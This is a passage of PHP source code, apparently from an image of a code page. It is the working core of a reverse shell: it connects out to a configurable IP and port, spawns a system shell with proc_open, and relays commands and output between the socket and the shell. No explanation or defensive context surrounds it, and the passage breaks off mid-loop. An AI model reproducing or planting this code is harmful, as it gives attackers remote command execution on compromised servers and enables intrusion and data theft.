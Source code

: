 ```
} else {
 printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");
umask(0);

$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
 printit("$errstr ($errno)");
 exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  
   1 => array("pipe", "w"),  
   2 => array("pipe", "w")   
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
 printit("ERROR: Can't spawn shell");
 exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {

 if (feof($sock)) {
  printit("ERROR: Shell connection terminated");
  break;
 }

 if (feof($pipes[1])) {
  printit("ERROR: Shell process terminated");
  break;
 }

 $read_a = array($sock, $pipes[1], $pipes[2]);
 $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

 if (in_array($sock, $read_a)) {
  if ($debug) printit("SOCK READ");
  $input = fread($sock, $chunk_size);
  if ($debug) printit("SOCK: $input");
  fwrite($pipes[0], $input);
 }

 if (in_array($pipes[1], $read_a)) {
  if ($debug) printit("STDOUT READ");
  $input = fread($pipes[1], $chunk_size);
  if ($debug) printit("STDOUT: $input");
  fwrite($sock, $input);
 }

 if (in_array($pipes[2], $read_a)) {
```